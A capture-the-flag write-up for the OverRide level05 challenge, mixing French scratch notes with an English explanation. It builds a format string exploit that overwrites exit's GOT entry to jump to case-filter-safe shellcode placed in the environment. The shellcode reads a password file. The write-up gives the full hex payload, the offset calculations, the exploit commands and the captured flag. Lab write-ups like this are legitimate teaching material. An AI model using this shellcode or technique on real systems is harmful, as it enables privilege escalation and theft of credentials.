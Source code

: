 Brouillon

need nouveau shellcode sans \x50 car to_lower.

supp ligne push eax qui fout la merde >> utiliser un bail different pour mettre le \0

nasm -f elf32 shellcode.s -o shellcode.o
ld -m elf_i386 -o shellcode shellcode.o

objdump -d -M intel shellcode | grep -Po '\s\K[0-9a-f]{2}(?=\s)' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'


shellcode de zinzin :

\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xb2\x01\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x29\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xb2\x29\x89\xe1\xcd\x80\xb0\x01\xcd\x80

trouver l'addresse dans la stack :

./level05
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6ef 0xffffd6ee (nil) 0xffffffff 0xffffd774 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

=> 10eme variable dans la stack                                                     


0x080497e0 addresse de exit

65535 + 57197

printf de 4294956748 - 22 - 4 - 1 char = 4294956721 chars

new idee (pck shellcode trop long) stocker shellcode dans l'environ => env -i SHELLCODE=xxxxx gdb ./level05

exec zizimou pour environnement

=> SHELLCODE => 0xffffdf6b

df6b => 57195 (- 8 pour les 8 char = 57187)
65535 - 57195 = 8340 char de + pour le 2e

python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08% 57187d%10$hn% 8340d%11$hn"' > /tmp/level05
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08% 57187d%10$hn% 8340d%11$hn"' | env -i SHELLCODE=$(python -c 'print "\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xb2\x01\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x29\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xb2\x29\x89\xe1\xcd\x80\xb0\x01\xcd\x80"') ./level05

This time we instantly see a very bad printf usage that is vulnerable to format string attack. This is a classic format string attack where we will replace the address of the exit function in the GOT with the address of our shellcode. But this time our shellcode will not work because it has to get through a to_lower function. We have to cook a new shellcode that does not contain any ascii character between `@` and `[`. The new shellcode is a bit different, we cannot use push eax or a few other little subtilities but it is not that bad to make (yes it was). We place our shellcode in the environment to not be bothered with overflow or stack smashing and everything because our shellcode is big and we add NOPs to make sure we get a little bit of error margin. Last little subtility is we have to write the address in two halves because it is too big and will overflow the stdio buffer.

```bash
level05@OverRide:~$ cat /tmp/level05 | env -i SHELLCODE=$(python -c 'print "\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xb2\x01\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x29\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xb2\x29\x89\xe1\xcd\x80\xb0\x01\xcd\x80"') ./level05
```
And we get our flag :
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
